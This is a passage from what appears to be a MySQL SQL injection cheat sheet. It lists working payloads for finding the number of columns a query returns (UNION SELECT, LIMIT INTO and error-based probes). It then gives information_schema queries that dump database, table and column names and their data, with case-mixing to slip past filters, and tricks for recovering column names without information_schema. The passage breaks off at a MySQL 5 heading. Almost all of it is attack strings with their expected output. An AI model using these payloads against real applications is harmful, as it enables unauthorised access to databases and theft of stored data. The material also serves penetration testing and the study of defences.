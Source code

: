 ```sql
1' UNION SELECT @--+        #The used SELECT statements have a different number of columns
1' UNION SELECT @,@--+      #The used SELECT statements have a different number of columns
1' UNION SELECT @,@,@--+    #No error means query uses 3 column
                            #-1' UNION SELECT 1,2,3--+	True
```
##### Using `LIMIT INTO` Error Based
This method works if error showing is enabled.

It is useful for finding the number of columns when the injection point is after a LIMIT clause.
```sql
1' LIMIT 1,1 INTO @--+        #The used SELECT statements have a different number of columns
1' LIMIT 1,1 INTO @,@--+      #The used SELECT statements have a different number of columns
1' LIMIT 1,1 INTO @,@,@--+    #No error means query uses 3 column
                              #-1' UNION SELECT 1,2,3--+	True
```
##### Using `SELECT * FROM SOME_EXISTING_TABLE` Error Based
This works if you know the table name you're after and error showing is enabled.

It will return the amount of columns in the table, not the query.

```sql
1' AND (SELECT * FROM Users) = 1--+ 	#Operand should contain 3 column(s)
                                        # This error means query uses 3 column
                                        #-1' UNION SELECT 1,2,3--+	True
```
### Extract database with information_schema

Then the following codes will extract the databases'name, tables'name, columns'name.

```sql
UniOn Select 1,2,3,4,...,gRoUp_cOncaT(0x7c,schema_name,0x7c)+fRoM+information_schema.schemata
UniOn Select 1,2,3,4,...,gRoUp_cOncaT(0x7c,table_name,0x7C)+fRoM+information_schema.tables+wHeRe+table_schema=...
UniOn Select 1,2,3,4,...,gRoUp_cOncaT(0x7c,column_name,0x7C)+fRoM+information_schema.columns+wHeRe+table_name=...
UniOn Select 1,2,3,4,...,gRoUp_cOncaT(0x7c,data,0x7C)+fRoM+...
```

### Extract columns name without information_schema

Method for `MySQL >= 4.1`.

First extract the column number with 
```sql
?id=(1)and(SELECT * from db.users)=(1)
-- Operand should contain 4 column(s)
```

Then extract the column name.
```sql
?id=1 and (1,2,3,4) = (SELECT * from db.users UNION SELECT 1,2,3,4 LIMIT 1)
--Column 'id' cannot be null
```

Method for `MySQL 5`
